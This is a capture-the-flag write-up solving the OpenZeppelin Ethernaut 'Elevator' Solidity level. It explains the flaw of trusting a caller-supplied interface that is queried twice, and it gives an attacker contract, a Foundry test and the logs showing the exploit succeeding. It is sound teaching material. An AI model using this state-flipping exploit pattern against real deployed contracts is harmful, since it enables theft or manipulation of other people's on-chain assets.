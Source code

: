 # What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](ethernaut.openzeppelin.com)

<br>

# What You're Supposed to Do?

in `11-Elevator` Challenge, You Should Try To find a Way to Go to Top of the Building Successfully Using the Elevator.

`11-Elevator` Challenge Link: [https://ethernaut.openzeppelin.com/level/0x6DcE47e94Fa22F8E2d8A7FDf538602B1F86aBFd2](https://ethernaut.openzeppelin.com/level/0x6DcE47e94Fa22F8E2d8A7FDf538602B1F86aBFd2)

<br>

# How did i Complete This Challenge?

<br>

I made a little change `Elevator` Contract Which Just Changed Interface Name from `Building` to `IBuilding`.

So Now Looks Like This:

```javascript
    interface IBuilding {
        function isLastFloor(uint256) external returns (bool);
    }

    contract Elevator {
        bool public top;
        uint256 public floor;

        function goTo(uint256 _floor) public {
            IBuilding building = IBuilding(msg.sender);


            if (!building.isLastFloor(_floor)) {
                floor = _floor;
                top = building.isLastFloor(floor);
            }
        }
    }
```

When We Analyze the `Elevator` Contract, We See that it uses an interface. Right Away, You Should Ask Yourself: What's The Purpose of Using Interface in This Contract or Even in Soliidty?

One of the Main Reasons is to Interact With Smart Contracts Specific Functions But Using Less Gas.

Now When You See This line: `IBuilding building = IBuilding(msg.sender)`, it means the `msg.sender` is a Contract, Which We Use a Interface to Interact with `isLastFloor()` function.

Now This `isLastFloor` Function it Should Work in a Way to Successfully Pass the If Statement. Since `isLastFloor()` Returns a Boolean Value and the If Statement itself Requires the
condition to be `true`, in order to Execute Rest of the Code, this Indicates that returned value from `isLastFloor()` function, should be `false` and then we flip it back to `true` When
we use `!` with `false`. (`if (!false == true) {execute rest of the code}`)

Now What the Contract Should do is return `true` if it's Last Floor of the Building and return `false` if it's not. (kinda)

But One thing You Probably Didn't Notice is, if the `_floor` number we pass in, is actually the Last Floor of the Building, it will return `true` and When We Combine `!` with `true` (`!true`) it will flip back to `false` which the condition of the if statement will be `false`, resulting in Not Executing the Rest of the code inside the if statement.

What Attacker Can do Here is, if `_floor` number is Passed in is the Last Floor, Return `false` first time, so the code inside the if statement get's executed and return `true` second time
if the `_floor` Number Passed in, is The Last Floor of the Building.

So Basically We Want this Line `if (!building.isLastFloor(_floor))}` condition equals to `true` by `isLastFloor()` function returning `false` and `top = building.isLastFloor(floor)` to be
`true`.

So it looks Like this:

```javascript
    if (!building.isLastFloor(_floor)) {    
        floor = _floor;
        top = building.isLastFloor(floor);
    }

    if (!false) {    
        floor = _floor;
        top = true;
    }
```

Attacker Can Use Similar Contract Like This In Order to Go Top Of the Building Successfully:

```javascript
    contract Building is IBuilding {

    Elevator elevator;
    uint256 public lastFloor = 10;
    bool isFirstCall = true;

    constructor(Elevator _elevator) {
        elevator = _elevator;
    }

    function useElevator(uint256 _floor) external {
        elevator.goTo(_floor);
    }

    function isLastFloor(uint256 _floor) external returns (bool isLastFloorBoolean) {
        if (_floor > lastFloor) {
            revert("This Building Only Has 10 Floors");
        }

        if (_floor != lastFloor) {
            isLastFloorBoolean = false;
        } else if (_floor == 10) {
            if (isFirstCall) {
                isFirstCall = false;
                return false;

            } else if (!isFirstCall) {
                isFirstCall = true;
                return true;
            }
        }
    }
}
```


Here's the Test i Wrote inside the `Elevator.t.sol` Which You Can Run to Exploit the `Elevator` Contract:

```javascript
    function testElevatorIsWorkingCorrectly() external {
        Building building = new Building(elevator);
        
        console.log("The Last Floor in this Building is 10.");
        console.log("Lets Use Elevator To Go To Floor 3.");

        building.useElevator(3);

        console.log("We Are Currently On Floor: ", elevator.floor());
        assertEq(elevator.floor(), 3);
        console.log("is This the Top of the Building? ", elevator.top());
        assertEq(elevator.top(), false);


        console.log("Hmm... i Changed my Mind, Lets Go To Top of the Building, Floor 10.");

        building.useElevator(10);

        console.log("We Are Currently On Floor: ", elevator.floor());
        assertEq(elevator.floor(), 10);
        console.log("is This the Top of the Building? ", elevator.top());
        assertEq(elevator.top(), true);
    }
```

You Can Run it with Command Below:

```javascript
    forge test --match-test testElevatorIsWorkingCorrectly -vvvv
```

Take a Look at the `Logs`:

```javascript
    Logs:
        The Last Floor in this Building is 10.
        Lets Use Elevator To Go To Floor 3.
        We Are Currently On Floor:  3
        is This the Top of the Building?  false
        Hmm... i Changed my Mind, Lets Go To Top of the Building, Floor 10.
        We Are Currently On Floor:  10
        is This the Top of the Building?  true
```
